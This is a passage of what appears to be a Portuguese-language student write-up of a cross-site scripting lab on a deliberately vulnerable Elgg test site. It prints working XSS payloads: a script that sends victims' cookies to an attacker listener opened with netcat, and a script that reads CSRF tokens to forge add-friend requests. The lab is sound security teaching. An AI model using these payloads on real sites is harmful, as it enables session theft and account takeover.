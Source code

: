 ```html
<script> alert(document.cookie)</script>
```

O resultado pode ser visto abaixo:

![Laborato%CC%81rio%201%20-%20Cross-Site%20Scripting%20Attack%20aa1dfbf4fb3b4029879d2d6a817fd0c5/print5.png](Laborato%CC%81rio%201%20-%20Cross-Site%20Scripting%20Attack%20aa1dfbf4fb3b4029879d2d6a817fd0c5/print5.png)

### Tarefa 3 – Pegar os cookies da máquina da vítima

O objetivo agora é “roubar” os cookies do usuário. Para isso, ao acessar o perfil malicioso deve ser feita uma requisição HTTP do tipo GET para o servidor do atacante, passando como parâmetro de rota os cookies do usuário. Portanto, no perfil samy foi inserido o seguinte script:

```html
<script>document.write('<img src=http://127.0.0.1:5555?c='
+escape(document.cookie) + ' >');
</script>
```

A partir disto iniciamos um servidor TCP  na porta 5555 com o programa **netcat** a partir da seguinte linha de comando: `nc -l 5555 -v`. A partir daí, quando uma vitima entra no perfil de Samy, a requisição é gerada e seus cookies são enviados para a máquina do atacante como mostra a imagem a seguir:

![Laborato%CC%81rio%201%20-%20Cross-Site%20Scripting%20Attack%20aa1dfbf4fb3b4029879d2d6a817fd0c5/print6.png](Laborato%CC%81rio%201%20-%20Cross-Site%20Scripting%20Attack%20aa1dfbf4fb3b4029879d2d6a817fd0c5/print6.png)

### Tarefa 4 – Adicionar vítima ao entrar no perfil malicioso

Quando clicamos em adicionar um usuário, Samy por exemplo, a requisição GET enviada ao servidor é a seguinte:

[http://www.xsslabelgg.com/action/friends/add?friend=47&__elgg_ts=1616699615&__elgg_token=5oSmw9dk8t1KQLtBva99iw&__elgg_ts=1616699615&__elgg_token=5oSmw9dk8t1KQLtBva99iw](http://www.xsslabelgg.com/action/friends/add?friend=47&__elgg_ts=1616699615&__elgg_token=5oSmw9dk8t1KQLtBva99iw&__elgg_ts=1616699615&__elgg_token=5oSmw9dk8t1KQLtBva99iw)

O código disponibilizado pelo guia do laboratório apresenta um campo para a inserção da URL que será utilizada para gerar a requisição GET, e deve seguir o padrão citado acima. Primeiro deve-se inserir a URL contendo o Id do usuário a ser adicionado, seguida das variáveis token e ts, que são utilizadas como contra medida em ataques CSRF. 

O script inserido no perfil de Samy, na aba *About me*, ficou assim:

```jsx
<script type="text/javascript">
	window.onload = function () {
	var Ajax=null;
	var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; //1
	var token="&__elgg_token="+elgg.security.token.__elgg_token; //2
	
	//Construct the HTTP request to add Samy as a friend
	var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=47" + token + ts;  //FILL IN
	
	//Create and send Ajax request to add friend
	Ajax=new XMLHttpRequest();
	Ajax.open("GET",sendurl,true);
	Ajax.setRequestHeader("Host","www.xsslabelgg.com");
	Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
	Ajax.send();
}
</script>
```
